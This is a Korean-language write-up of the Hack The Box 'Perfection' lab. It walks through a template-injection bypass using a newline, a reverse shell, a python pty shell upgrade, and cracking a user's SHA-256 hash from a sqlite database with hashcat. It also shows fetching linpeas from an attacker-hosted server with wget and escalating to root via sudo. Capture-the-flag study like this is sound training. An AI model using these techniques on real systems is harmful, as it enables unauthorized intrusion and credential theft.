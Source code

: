 # hack the box: perfection
## 사용된 취약점: SSTI
- SSTI(Server Side Template Injection)취약점: 웹 어플리케이션에 적용되어 있는 웹 템플릿 엔진(Web Template Engine)에 공격자의 공격 코드가 템플릿에 포함된 상태에서 서버 측에서 템플릿 인젝션이 발현되는 공격을 의미

- category1=1&grade=50&weight=1…
    - SSTI에 취약함
- burpsuite로 테스트를 진행한다.
    - 입력 값을 넣는 곳에 %0A를 넣고 \` \` 안에 스크립트를 삽입한 후 스크립트 전체를 url인코딩하여 실행한다.
        - %0A=\n(개행문자)
        - 개행 문자를 넣은 이유는 스크립트를 그냥 삽입할 경우 malicious code detected 경고가 나와 필터링을 하고 있는 것을 알아차릴 수 있기 때문에 우회 목적으로 넣음
- 반복적인 코드를 템플릿 문서로 만드는 구조로 되어 있다.
- ${7*7}을 넣어 49가 나오는 것으로 보아 server side에서 script가 실행되는 것을 알 수 있다.
    - hacktricks에서 해당 문서를 참조
    - 언어, 프레임워크마다 명령어 종류가 다양함
- reverseshell generator를 이용하여 코드를 생성
    - burpsuite에 넣고 url encoding을 하여 reverse shell을 얻을 수 있다.
    - category1=Maths%0A` <스크립트 삽입>`

- which 로 프로그램 경로 찾을 수 있음
- python3 -c ‘import pty;pty.spawn(”/bin/bash”)’를 한다.
    - pseudo-terminal interface를 import함
    - 그 후 bash shell을 실행
        - 그 이유
        - 완전한 대화형 셸로 업그레이드 하려는 목적
        - 여러 편의성을 위해서 시도
        - 만약 완전한 상호 작용 기능을 제공할 경우 필요 없음
- user.txt의 플래그 값을 찾을 수 있다.

- sqlite3 pupilpath_credentials.db로 db파일을 읽어 susan의 해시 값을 읽을 수 있다.
    - 전 단계에서 susan이 sudo 그룹에 속한 것 때문에 susan의 해시 값을 크랙한다.
    - 만약 그룹에 속하지 않았다면 다른 사용자를 크랙해야 한다.

- hashcat susan.txt /usr/share/wordlists/rockyou.txt
- 크랙은 되지 않았지만 해시 값의 종류를 sha-256으로 좁힐 수 있다.
- hashcat -m 1400 susan.txt /usr/share/wordlists/rockyou.txt 로 시도
    - -m 1400 :sha-256으로 지정
- linpeas.sh를 실행
    - kali에서 python3 -m http.server 4444로 서버 오픈
    - server 터미널에서 wget http://10.10.14.44:4444/linpeas.sh로 다운로드 시킨다.
    - chmod +x linpeas.sh로 하여 실행
- linpeas 결과 중 mail결과에서 pw format을 찾을 수 있다.
    - {firstname_firstname}_{reversed_random}_{integer between1 and 1billion}
    -                                             1000000000(9자리 수)
        
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d
    - -a 3: brute force mode
    - ?d : 9자리수 무작위 숫자 지정
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d —show로 결과 값 확인
- sudo bash로 크랙 된 pw를 삽입 후 whoami로 root권환을 획득할 수 있다.

### 결론
### SSTI를 이용해서 침투를 수행하고 db파일의 해시값을 통해 크랙하여 pw를 얻을 수 있었다.
### 입력값을 검증하지 않고 명령어를 넣어 실행되는 것을 알 수 있었기에 이를 막아야 보안상의 허점이 줄어든다.

# 보충

- [linpeas.sh](http://linpeas.sh) 기능?
    - linux, macOS에서 권한 상승 가능한 리스트를 나타내는 스크립
